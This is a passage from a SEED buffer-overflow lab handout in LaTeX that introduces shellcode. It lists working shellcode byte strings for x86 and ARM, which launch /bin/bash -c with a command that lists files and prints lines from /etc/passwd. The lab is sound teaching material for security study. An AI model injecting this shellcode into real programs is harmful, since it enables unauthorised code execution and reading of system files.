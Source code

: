 
\section{Task 1: Get Familiar with the Shellcode}

The ultimate goal of buffer-overflow attacks is to inject
malicious code into the target program, so the code can be
executed using the target program's privilege.
Shellcode is widely used in most code-injection attacks.
Let us get familiar with it in this task.


Shellcode is typically used in code injection attacks.
It is basically a piece of code that launches a shell, and
is usually written in assembly languages.
In this lab, we only provide the binary version of a generic shellcode,
without explaining how it works, because it is non-trivial.
If you are interested in how exactly shellcode works, and
want to write a shellcode from scratch, you
can learn that from a separate SEED lab called \textit{Shellcode Lab}.
Our generic shellcode is listed in the following.
\ifdefined\arm
\else
We only list the x86 version (32-bit); the amd64 versions of shellcode
is similar.
\fi




\ifdefined\arm
\begin{lstlisting}[language=python]
shellcode= (
   "\x0b\x05\x01\x10\x0c\x04\x84\xd2\x73\x01\x0c\xcb\x29\x01\x09\x4a"
   ... (lines omitted) ...
   "\x94\x02\x14\xca\xe2\x03\x14\xaa\xa8\x1b\x80\xd2\xe1\x66\x02\xd4"
   "/bin/bash*"                                                       (*@\ding{202}@*)
   "-c****"                                                           (*@\ding{203}@*)
   "/bin/ls -l; echo Hello 64; /bin/tail -n 4 /etc/passwd          *" (*@\ding{204}@*)
   # The * in this line serves as the position marker              *
   "AAAAAAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBBBBBB"   # Placeholder for argv[1] --> "-c"
   "CCCCCCCC"   # Placeholder for argv[2] --> the command string
   "DDDDDDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')
\end{lstlisting}

\else
\begin{lstlisting}[language=python]
shellcode = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"                                                     (*@\ding{202}@*)
   "-c*"                                                            (*@\ding{203}@*)
   "/bin/ls -l; echo Hello; /bin/tail -n 2 /etc/passwd        *"    (*@\ding{204}@*)
   # The * in this line serves as the position marker         *
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')
\end{lstlisting}
\fi


